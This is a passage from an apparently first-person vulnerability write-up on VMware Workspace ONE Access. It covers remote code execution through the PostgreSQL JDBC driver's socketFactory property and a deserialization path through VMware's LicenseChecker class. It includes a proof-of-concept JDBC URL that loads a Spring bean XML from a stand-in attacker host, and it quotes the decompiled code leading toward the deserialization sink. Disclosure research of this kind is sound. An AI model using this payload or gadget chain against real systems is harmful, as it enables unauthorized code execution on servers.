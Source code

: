 This technique was first [presented](https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf) by Yang Zhang, Keyi Li, Yongtao Wang and Kunzhe Chai at Blackhat Europe in 2019. This was the technique I used in the exploit I sent to VMWare because I wanted to hint at their usage of unsafe libraries that contain off the shell gadget chains in them!

**Technique 2 - Remote code execution via the PostgreSQL JDBC Driver socketFactory**

It was possible to perform remote code execution via the `socketFactory` property of the PostgreSQL JDBC driver. By setting the `socketFactory` and `socketFactoryArg` properties, an attacker can trigger the execution of a constructor defined in an arbitrary Java class with a controlled string argument. Since the application was using Spring with a Postgres database, it was the perfect candidate to (ab)use `FileSystemXmlApplicationContext`!

Proof of Concept: `jdbc:postgresql://si/saas?&socketFactory=org.springframework.context.support.FileSystemXmlApplicationContext&socketFactoryArg=http://attacker.tld:9090/bean.xml`. 

![](/assets/images/taking-on-a-new-identity-pwning-vmware-workspace-one-access/postgres.png "Triggering remote code execution via the PostgreSQL JDBC driver")

But of course, we can improve on this. Inspired by [RicterZ](http://noahblog.360.cn/vcenter-cve-2021-2021-21985/), let's say you want to exploit the bug without internet access. You can re-use the `com.vmware.licensecheck.LicenseChecker` class VMWare provides us and mix deserialization with the PostgreSQL JDBC driver attack.

Let's walk from one of the `LicenseChecker` constructors, right to the vulnerable sink.

```java
    public LicenseChecker(final String s) {
        this(s, true); // 1
    }

    public LicenseChecker(final String state, final boolean validateExpiration) {
        this._handle = new LicenseHandle();
        if (state != null) {
            this._handle.setState(state); // 2
        }
        this._validateExpiration = validateExpiration;
    }
```

At *[1]* the code calls another constructor in the same class with the parsed in string. At *[2]* the code calls `setState` on the `LicenseHandle` class:

```java
    public void setState(String var1) {
        if (var1 != null && var1.length() >= 1) {
            try {
                byte[] var2 = MyBase64.decode(var1); // 3
                if (var2 != null && this.deserialize(var2)) { // 4
                    this._state = var1;
                    this._isDirty = false;
                }
            } catch (Exception var3) {
                log.debug(new Object[]{"failed to decode state: " + var3.getMessage()});
            }

        }
```